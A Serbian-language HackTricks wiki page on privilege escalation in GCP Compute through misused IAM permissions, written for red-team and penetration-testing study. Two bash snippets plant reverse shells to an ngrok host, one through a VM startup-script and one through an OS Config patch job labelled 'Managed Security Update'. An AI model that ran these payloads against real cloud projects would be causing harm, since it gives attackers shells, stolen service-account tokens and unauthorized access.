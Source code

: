 # GCP - Compute Privesc

{% hint style="success" %}
Naučite i vežbajte AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Naučite i vežbajte GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podržite HackTricks</summary>

* Pogledajte [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili **pratite** nas na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Delite hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}

## Compute

Za više informacija o Compute i VPC (mreži) u GCP pogledajte:

{% content-ref url="../../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

{% hint style="danger" %}
Napomena da za izvođenje svih napada za eskalaciju privilegija koji zahtevaju modifikaciju metapodataka instance (kao što je dodavanje novih korisnika i SSH ključeva) **potrebno je da imate `actAs` dozvole nad SA pridruženim instanci**, čak i ako je SA već pridružen!
{% endhint %}

### `compute.projects.setCommonInstanceMetadata`

Sa tom dozvolom možete **modifikovati** **metapodatke** instance i promeniti **autorizovane ključeve korisnika**, ili **kreirati** **novog korisnika sa sudo** dozvolama. Dakle, moći ćete da se povežete putem SSH na bilo koju VM instancu i ukradete GCP Service Account sa kojim instanca radi.\
Ograničenja:

* Napomena da GCP Service Accounts koji rade u VM instancama po defaultu imaju **veoma ograničen opseg**
* Trebaće vam **mogućnost da kontaktirate SSH** server da biste se prijavili

Za više informacija o tome kako iskoristiti ovu dozvolu pogledajte:

{% content-ref url="gcp-add-custom-ssh-metadata.md" %}
[gcp-add-custom-ssh-metadata.md](gcp-add-custom-ssh-metadata.md)
{% endcontent-ref %}

Takođe možete izvesti ovaj napad dodavanjem novog startup-skripta i ponovnim pokretanjem instance:
```bash
gcloud compute instances add-metadata my-vm-instance \
--metadata startup-script='#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18347 0>&1 &'

gcloud compute instances reset my-vm-instance
```
### `compute.instances.setMetadata`

Ova dozvola daje **iste privilegije kao prethodna dozvola**, ali nad specifičnim instancama umesto nad celim projektom. **Isti eksploati i ograničenja kao u prethodnom odeljku važe**.

### `compute.instances.setIamPolicy`

Ova vrsta dozvole će vam omogućiti da **dodelite sebi ulogu sa prethodnim dozvolama** i eskalirate privilegije zloupotrebljavajući ih.

### **`compute.instances.osLogin`**

Ako je **OSLogin omogućen na instanci**, sa ovom dozvolom možete jednostavno pokrenuti **`gcloud compute ssh [INSTANCE]`** i povezati se sa instancom. **Nećete imati root privilegije** unutar instance.

{% hint style="success" %}
Da biste se uspešno prijavili sa ovom dozvolom unutar VM instance, morate imati dozvolu `iam.serviceAccounts.actAs` nad SA pridruženom VM-u.
{% endhint %}

### **`compute.instances.osAdminLogin`**

Ako je **OSLogin omogućen na instanci**, sa ovom dozvolom možete jednostavno pokrenuti **`gcloud compute ssh [INSTANCE]`** i povezati se sa instancom. Imaćete **root privilegije** unutar instance.

{% hint style="success" %}
Da biste se uspešno prijavili sa ovom dozvolom unutar VM instance, morate imati dozvolu `iam.serviceAccounts.actAs` nad SA pridruženom VM-u.
{% endhint %}

### `compute.instances.create`,`iam.serviceAccounts.actAs, compute.disks.create`, `compute.instances.create`, `compute.instances.setMetadata`, `compute.instances.setServiceAccount`, `compute.subnetworks.use`, `compute.subnetworks.useExternalIp`

Moguće je **kreirati virtuelnu mašinu sa dodeljenim Service Account-om i ukrasti token** service account-a pristupajući metapodacima kako biste eskalirali privilegije.

Eksploatacioni skript za ovu metodu možete pronaći [ovde](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/compute.instances.create.py).

### `osconfig.patchDeployments.create` | `osconfig.patchJobs.exec`

Ako imate **`osconfig.patchDeployments.create`** ili **`osconfig.patchJobs.exec`** dozvole, možete kreirati [**patch job ili deployment**](https://blog.raphael.karger.is/articles/2022-08/GCP-OS-Patching). Ovo će vam omogućiti lateralno kretanje u okruženju i dobijanje izvršenja koda na svim compute instancama unutar projekta.

Napomena da trenutno **ne trebate `astAs` dozvolu** nad SA pridruženom instanci.

Ako želite ručno da eksploatišete ovo, potrebno je da kreirate ili [**patch job**](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch\_job.json) **ili** [**deployment**](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch\_deployment.json)**.**\
Za patch job pokrenite:

{% code overflow="wrap" %}
```python
cat > /tmp/patch-job.sh <<EOF
#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18442 0>&1
EOF

gsutil cp /tmp/patch-job.sh gs://readable-bucket-by-sa-in-instance/patch-job.sh

# Get the generation number
gsutil ls -a gs://readable-bucket-by-sa-in-instance

gcloud --project=$PROJECT_ID compute os-config patch-jobs execute \
--instance-filter-names=zones/us-central1-a/instances/<instance-name> \
--pre-patch-linux-executable=gs://readable-bucket-by-sa-in-instance/patch-job.sh#<generation-number> \
--reboot-config=never \
--display-name="Managed Security Update" \
--duration=300s
```
{% endcode %}

Da biste primenili patch deployment:
```bash
gcloud compute os-config patch-deployments create <name> ...
```
Alat [patchy](https://github.com/rek7/patchy) mogao je biti korišćen u prošlosti za eksploatisanje ove pogrešne konfiguracije (ali sada ne radi).

**Napadač bi takođe mogao da zloupotrebi ovo za postojanost.**

### `compute.machineImages.setIamPolicy`

**Dodelite sebi dodatne dozvole** za compute Image.

### `compute.snapshots.setIamPolicy`

**Dodelite sebi dodatne dozvole** za snapshot diska.

### `compute.disks.setIamPolicy`

**Dodelite sebi dodatne dozvole** za disk.

### Zaobilaženje Access Scopes

Prateći ovaj link možete pronaći neke [**ideje za pokušaj zaobilaženja access scopes**](../).

### Lokalna eskalacija privilegija u GCP Compute instance

{% content-ref url="../gcp-local-privilege-escalation-ssh-pivoting.md" %}
[gcp-local-privilege-escalation-ssh-pivoting.md](../gcp-local-privilege-escalation-ssh-pivoting.md)
{% endcontent-ref %}

## Reference

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

{% hint style="success" %}
Naučite i vežbajte AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Naučite i vežbajte GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podržite HackTricks</summary>

* Pogledajte [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili **pratite** nas na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Delite hakovanje trikove podnošenjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}
